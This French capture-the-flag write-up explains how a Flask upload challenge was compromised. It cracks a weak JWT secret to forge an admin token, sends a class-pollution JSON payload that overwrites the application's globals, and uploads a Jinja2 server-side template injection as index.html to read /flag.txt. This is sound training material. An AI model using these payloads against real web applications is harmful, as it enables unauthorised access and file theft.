





# Système Central de Dépot (SCD)
> Auteur : Al-oxos

## Recon

La description du challenge nous indique qu'un concurrent vient de lancer un site web de cloud permettant d'uploader des fichiers.
Il est également précisé que nous allons devoir compromettre le concurrent pour récupérer l'accès à des données senbibles.
Nous pouvons alors assez simplement en déduire que le challenge va consister à trouver un moyen d'obtenir une exécution de code arbitraire sur le site web du concurrent pour récupérer des informations sensibles sur la machine.
Il est également important de noter que nous disposons des sources de l'application WEB qui auraient été récupérées suite à une fuite de données.

En nous rendant sur l'application, nous pouvons voir différentes pages relativement vide, dont une page d'upload de fichiers, une page d'accueil et une page pour modifier une whitelist à laquelle nous n'avons pas accès car nous ne sommes pas administrateurs.







Aucune conclusion intéressante ne peut être tirée de ces pages, il va donc falloir regarder le code source de l'application pour trouver des informations intéressantes.
En analysant le code source de l'applications, nous voyons rapidement du code qui va nous intéresser.
Premièrement, il existe un décorateur permettant de gérer un token jwt (présent dans les cookies du navigateurs) qui est utilisé pour vérifier si un utilisateur est administrateur ou non lors de l'accès à la page de modification de la whitelist.
Un commentaire présent dans le code ne nous laisse pas indifférents et très rapidement nous comprenons que le token jwt est signé avec une clé secrète faible (et donc facilement crackable) via des outils tels que hashcat ou jwt_tool.

Le commentaire en question : 
```python
app.config['SECRET_KEY'] = 'REDACTED' # J'ai caché la clé secrète pour des raisons de sécurité, mais il faudrait la changer en production car elle n'est pas du tout robuste...
```

Et le décorateur : 
```python
def jwt_required_admin(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        token = request.cookies.get('jwt_token')
        if not token:
            flash("Token manquant", "error")
            return redirect('/')
        try:
            decoded_token = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
            if decoded_token.get("role") != "admin": #Gestion du role administrateur ici !!
                flash("Accès refusé, vous n'êtes pas admin", "error") 
                return redirect('/')
        except jwt.InvalidTokenError:
            flash("Token invalide", "error")
            return redirect('/')
        return f(*args, **kwargs)
    return decorated_function
```

Après utilisation d'hashcat avec la wordlist rockyou, nous trouvons presque instantanément la clé secrète : `iloveu`
Nous pouvons alors crafter un token jwt admin en le signant avec cette clé et en passant rôle à admin via JWT.io par exemple.
Nous obtenons ainsi l'accès à la page de modification de la whitelist.



Allons désormais analyser la logique de l'application, car nous n'avons ici quasiment aucune connaissance sur le fonctionnement de l'application et ce qu'elle permet.
Assez rapidement, nous comprenons que l'application permet d'uploader des fichiers, que deux variables globales `Dev` et `path` sont utilisées pour déterminer si l'application est en mode développement et le répertoire dans lequel les fichiers sont sauvegardés ainsi qu'une classe `ExtensionValidator` permettant de gérer les extensions autorisées par l'application.
La page de whitelist à laquelle nous avons désormais accès nous permet d'ailleurs de modifier cette classe instancée dans le code source de l'application en utilisant la fonction merge définie dans le fichier `utils.py`.
Bien que cela puisse sembler un petit peu archaïque, cette fonction est vulnérable à une **Class Pollution** qui peut permettre en plus de modifier les variables deja définies dans notre classe, de modifier également des attributs de l'application python (comme les variables globales par exemple) en raison de l'utilisation de setattr et getattr dans la fonction merge.

Pour plus d'informations sur les pollutions de classes : (Un blogpost très pertinant)[https://blog.abdulrah33m.com/prototype-pollution-in-python/]

```python
def merge_config(src, dst):
    for key, value in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(key) and isinstance(value, dict):
                merge_config(value, dst.get(key))
            else:
                dst[key] = value
        elif hasattr(dst, key) and isinstance(value, dict):
            merge_config(value, getattr(dst, key))
        else:
            setattr(dst, key, value) # Si on ajoute une entrée inconnu dans le merge, on va créer un attribut de classe avec le nom de l'entrée et la valeur de l'entrée, cela permet de réécrire des variables globales par exemple
```

Nous pouvons alors réaliser une **Class Pollution** pour modifier les variables globales `Dev` et `path` et ainsi changer le répertoire dans lequel les fichiers sont sauvegardés, ainsi que modifier le comportement de l'application puisque nous pourrons bypasser l'ajout automatique de `.txt` derrière les fichiers uploadés si Dev est true.

```python
filename = uploaded_file.filename
file_extension = filename.split('.')[-1]

if not any(file_extension in getattr(validator, category, []) for category in vars(validator) if not category.startswith('__')):
    flash("Extension de fichier non autorisée", "error")
    return redirect('/upload')

if not dev:
    filename = f"{filename}.txt"
```

## Challenge solve

Maintenant que nous savons qu'il est possible d'injecter un fichier avec l'extension de notre choix si nous modifions la whitelist tout cela sans que l'extension ne soit append de .txt (car nous pouvons passer Dev est désormais True) et que nous pouvons controler le répertoire dans lequel ce fichier sera sauvegardé (dans les répertoires enfants de l'application, soit uploads, templates ou static dans notre cas) grâce à notre **Class Pollution**, il ne nous reste plus qu'à trouver un moyen d'exécuter du code arbitraire sur le serveur en uploadant un fichier qui pourrait être interprété par le serveur.
Sachant que le serveur utilise Flask et donc Jinja2 pour le templating, nous pouvons essayer d'uploader un fichier .html contenant une SSTI Jinja2 et l'uploader dans un fichier que l'application utilise, par exemple `index.html`.

Nous débutons par réaliser notre **Class Pollution** en modifiant les variables globales `Dev` et `path` et en ajoutant l'extension `.html` à la whitelist. Voila le payload permettant de réaliser cela.

```json
{
	"image": ["jpg", "jpeg", "png"],
 	"report": "pdf",
 	"usefull": ["json","html"],
    "__class__":{
        "__init__":{
            "__globals__":{
                "dev":"True",
                "path": "templates/"
                }
            }
        }
}
```

Une fois notre payload envoyé grâce à notre accès administrateur, il ne nous reste plus qu'à uploader un fichier index.html contenant une SSTI Jinja2.

Payload : 
```html
<html>
    <body>
        {{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
    </body>
</html>
```

En rafraichissant la page (sur la route /) et grâce à la présence de la ligne 
```python
app.config['TEMPLATES_AUTO_RELOAD'] = True
```
dans le code source qui permet d'empêcher flask de mettre en cache les fichiers de templating, nous pouvons voir que le payload a bien fonctionné et que nous avons récupéré le flag.



Une idée assez pertinente aurait également pu être d'uploader un fichier (par exemple crontab) afin de réécrire celui sur le serveur et exécuter le script de notre choix à intervalle régulier. Cela n'est pas possible en raison de la fonction `safe_path_join` qui empêche de remonter dans l'arborescence des répertoires de l'application (enfin j'espere).